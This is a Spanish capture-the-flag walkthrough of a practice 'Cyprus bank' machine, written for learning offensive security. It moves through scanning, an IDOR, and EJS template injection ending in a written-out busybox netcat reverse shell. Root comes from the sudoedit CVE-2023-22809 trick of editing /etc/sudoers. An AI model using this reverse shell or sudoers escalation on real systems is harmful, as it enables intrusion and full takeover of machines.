

## Reconocimiento
La máquina está basada en un capítulo de la serie [**Mr.Robot**](https://es.wikipedia.org/wiki/Mr._Robot), empezamos con unas credenciales, pero no sabemos dónde las podemos utilizar:


Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```
> nmap -p- -sVC --min-rate 5000 10.10.15.196 -Pn -n -oN nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 14:42 CET
Nmap scan report for 10.10.15.196
Host is up (0.054s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)
507/tcp   filtered crs
40348/tcp filtered unknown
54689/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Si intentamos acceder con la dirección IP por el puerto 80, nos redirecciona al dominio *cyprusbank.thm*, metemos el dominio en el fichero *hosts* y podremos observar la web del Banco Nacional de Chipre en modo mantenimiento:


Probamos a fuzzear con **dirsearch**, pero no encontramos nada, seguidamente lanzamos **wfuzz** para enumerar posibles subdominios y logramos enumerar un panel administrativo:
```
> wfuzz -c --hw 3 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.cyprusbank.thm" cyprusbank.thm

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cyprusbank.thm/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000001:   200        8 L      24 W       252 Ch      "www"                                                                                                                     
000000024:   302        0 L      4 W        28 Ch       "admin"
```

Metemos el nuevo subdominio en el fichero hosts, accedemos a él y enumeramos el panel de administración del Banco Nacional de Chipre:


Utilizamos las credenciales aportadas por el reto, son válidas, vemos que la cuenta del usuario está bien llena de *dinerito*, también se aprecia varios pagos recibidos por diferentes personas:


Los teléfonos aparecen ofuscados, tampoco tenemos acceso al apartado *Settings*:


## Explotación
Identificamos una especie de *LLM* (chatbot) o sistema de mensajería no funcional en el apartado *Messages*, nos llama mucho la atención la exposición del identificador a través del parámetro "*c*", ya que podría tener fallos de autorización y conseguir explotar un *IDOR*:


Hacemos una prueba de concepto, sustituyendo el valor "*5*" por "*1*", y parece que logramos explotar el *IDOR*:


Tras varias pruebas de fuzzing sobre el parámetro "*c*", logramos recuperar unas credenciales del usuario *Gayle Bev*:


Nos autenticamos con las credenciales de *Gayle*, ahora si es posible visualizar los teléfonos, señal que tenemos a un usuario con más privilegios:


Aunque no era parte del reto, me pareció simpático que incluyeran en la lista a *Amancio Ortega*, os dejo su teléfono por si le queréis pedir *Bizum* (será por dinero!)


Con este usuario si que logramos acceder a la zona de *Settings*, por lo que diría que el siguiente paso es explotar algunos de los siguientes campos:


Intentamos diferentes ataques de inyección de código *SQL* y *JavaScript*, en uno de ellos logramos ver que el siguiente error, donde nos muestra el fichero "*settings.ejs*":


Buscamos información y exploits para *EJS* y encontramos este:
- [https://eslam.io/posts/ejs-server-side-template-injection-rce/](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

Intentamos hacer la prueba de concepto sobre el campo *password*, vemos que la aplicación explota, pero intenta ejecutar el **netcat** sin éxito:


Utilizamos **busybox** por **netcat** y conseguimos explotar la vulnerabilidad con éxito y obtener una conexión con la máquina remota:
```
busybox nc 10.XX.XX.XX 443 -e /bin/bash
```


Tras varios directorios recursivos, identificamos el fichero *user.txt* con la flag.
```
web@cyprusbank:~$ cat user.txt      cat user.txt
cat user.txt
THM{*********************}
web@cyprusbank:~$ 
```


## Escalada de privilegios
Ejecutamos "*sudo -l*", vemos que nuestro usuario puede impersonar al usuario root sin contraseña para ejecutar *sudoedit* sobre un fichero de configuración web de **Nginx**:
```
web@cyprusbank:~$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
web@cyprusbank:~$ 
```

Buscamos por Internet, encontramos varios artículos relacionados y exploits, podemos utilizar la siguiente documentación y exploit para lograr la explotación:
- [https://raw.githubusercontent.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/refs/heads/main/exploit.sh](https://raw.githubusercontent.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/refs/heads/main/exploit.sh)
- [https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

#### Explotación
El exploit no funciona al 100%, pero nos ayuda a identificar que la máquina es explotable por esta técnica y que tendremos que ejecutar la explotación de forma manual:
```
web@cyprusbank:/tmp$ ./exploit.sh         ./exploit.sh
./exploit.sh
> BINGO! User exploitable
> Opening sudoers file, please add the following line to the file in order to do the privesc:
web ALL=(ALL:ALL) ALL
Press any key to continue..
```

Vemos el código fuente, vemos que almacena en la variable de entorno *EDITOR* la línea de **vim** apuntando al fichero *sudoers*, posteriormente se debería de lograr abrir con el usuario privilegiado y añadir la línea con todos los permisos.


En nuestro caso el escenario es diferente, pero explotable ;), ejecutamos los siguientes comandos para lograr la apertura del fichero como root:
```
EDITOR="vim -- /etc/sudoers"
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Insertamos la línea, pero además añadimos "*NOPASSWD: ALL*", para evitar escribir la contraseña, guardamos y salimos del fichero:


Para finalizar, comprobamos que ya podemos ejecutar cualquier comando con con cualquier usuario, ejecutamos una **bash** como root, conseguimos escalar privilegios y leer la última flag:
```
web@cyprusbank:~/app$ sudo -l

User web may run the following commands on cyprusbank:
    (ALL : ALL) NOPASSWD: ALL
web@cyprusbank:~/app$ sudo -u root /bin/bash
root@cyprusbank:/home/web/app# id
uid=0(root) gid=0(root) groups=0(root)
root@cyprusbank:/home/web/app# ls -lna /root
total 40
drwx------  6 0 0 4096 Apr  4  2024 .
drwxr-xr-x 23 0 0 4096 Jul 12  2023 ..
lrwxrwxrwx  1 0 0    9 Jul 16  2023 .bash_history -> /dev/null
-rw-r--r--  1 0 0 3106 Apr  9  2018 .bashrc
drwx------  2 0 0 4096 Jul 16  2023 .cache
-rwxr-xr-x  1 0 0  156 Apr  4  2024 clean.sh
drwx------  3 0 0 4096 Jul 16  2023 .gnupg
drwxr-xr-x  3 0 0 4096 Jul 16  2023 .local
drwxr-xr-x  5 0 0 4096 Apr  4  2024 .pm2
-rw-r--r--  1 0 0  148 Aug 17  2015 .profile
-rw-r--r--  1 0 0   21 Jul 15  2023 root.txt
root@cyprusbank:/home/web/app# cat /root/root.txt
THM{**************}
root@cyprusbank:/home/web/app# 
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!